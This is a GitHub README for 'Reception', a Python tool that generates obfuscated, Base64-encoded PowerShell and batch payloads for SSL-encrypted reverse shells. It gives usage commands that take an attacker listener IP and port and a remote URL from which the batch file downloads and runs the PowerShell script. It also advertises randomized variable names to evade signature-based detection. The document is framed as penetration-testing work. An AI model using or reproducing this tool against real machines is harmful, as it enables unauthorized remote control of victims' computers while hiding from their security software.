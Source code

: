 # Reception: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reception.git
cd Reception
```

## Usage

Generate an Encoded PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type ps1
```

Generate a Batch File and PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type bat -server http://<Your_Server_ip|URL>/<File-Name>.ps1
```

## PoC:
Generate a Batch File and PowerShell Script:

![image](https://github.com/user-attachments/assets/cfa697dc-46dc-4590-a05a-0cb0f09b1f8f)


Running the BAT file and creating a secure connection to the listener:

![image](https://github.com/user-attachments/assets/b7e05932-eeee-424f-905a-cb79481d1e2e)

Getting a Secure Reverse Shell:

![image](https://github.com/user-attachments/assets/254b55c2-4b83-4792-8901-95504c9a7fba)

Our Web Server with the PS1 file:

![image](https://github.com/user-attachments/assets/9d798ae3-fb11-4354-9ca1-c3c1343a1587)




